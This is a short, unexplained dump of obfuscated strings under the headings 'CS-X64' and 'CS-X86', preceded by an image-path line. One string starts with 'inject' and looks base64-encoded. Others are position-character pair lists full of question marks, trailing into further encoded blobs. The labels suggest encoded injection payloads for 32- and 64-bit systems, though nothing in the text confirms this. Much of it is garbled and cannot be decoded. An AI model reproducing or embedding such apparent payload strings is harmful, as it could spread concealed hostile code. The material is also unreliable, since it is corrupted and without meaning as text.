 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

adminfwpum@%%wthugq#twf/HcqgrtDmxjy-lfp/esff/lcwu/hefp/nfu1#uhn?aqh=gdjejeson

admins3???4|2,?w;6,B?;10?,a;?14,.;?18,??5;2?2???,0;??2????6,b??;30??,0;???34????,3;3??8????,e;????42??,m;???46,i??;50,R??;???54?,R;??58,H;????62?,0;6?6,g;????70,??%;74??,V;78??,W;82??,V;86???,j;???90,??%;???94??,x?;98,??b?;???1???02?,b;1???0?6,c;1????1????0,g;??11??4,L;1??18??,b;??122,??t;?126,h??;????130,u?;134,???m;|hA??r??wC?0h????B6m?la9???YY.??xy???C5z???U2???0?0LA???bvh?I0??xDn???3CL????Me?V???nBmr????NLi????NBqRy???U2R?T9???lH1??0???50gD???vgD??Ze%Vn?DV5w0??W????wlvV??zUYj?09z%???n????x????0x3lj?bzL??NbV?m?AcvgH?ghz??mL?BVwb?PfB????t??9???IThxE????r??uCL3m?=qqregred

chasn36|?2,d;6????,W;10?,N????;14,o???;18??,n;???22???,X;2???6,0;??30,R;????34,???c;38???,l????;42,n?;?46,,;????5????0,????z;54?,x;?58??,x;??62?,w;6??6,???b;????70,?a;7???4,L???;78,P?;82???,f;86?,P;???90,q???;94,F?;98??,2????;1???02??,6;1??0???6,??C;11??0,T;1????14,?Y;????118,???M????;122,?y;??126,D????;???1?30,?z;13?4?,n;1??3???8??,9;14????2,?d;?|h???ArdC0?hW6??mlN9Y????Yoxy?Cn?zU2X0?L??A????0??vhIRx????Dn??cC???LMl??VnB?nr??NL,????NBqzy??U???2xT9?lxn3L??ww??BfbD?Yha?ObB????Lj3???LP2????l????XfyP2?PUvC?qu2????VFMC????v2C???M????Y6O9z?CfwKT???YC9?YyT???wMU??Ll??yz3H?D????gBLz???lKMnH?rD9=?a=??derihsv


hawrf33|2,S;6,O;10,u;14,b;18,0;22,t;26,8;30,K;34,a;38,.;42,y;46,o;50,m;54,s;58,n;62,T;66,s;70,G;74,,;78,H;82,%;86,x;90,l;94,j;98,9;102,g;106,6;110,n;114,n;118,s;122,J;126,@;130,J;|AfbS4d.O2,IuXyYboq90tCktXFA8KPNK5bpa13J.ph.yxTQo3Q8mnHCsR2inud7TWuvspCOGhCE,vHxHfb8%7eLxBLllHY4juTk9bkFg5dp6pqwnVXbnPL8s.WXJUtC@CdWJ=wefgd
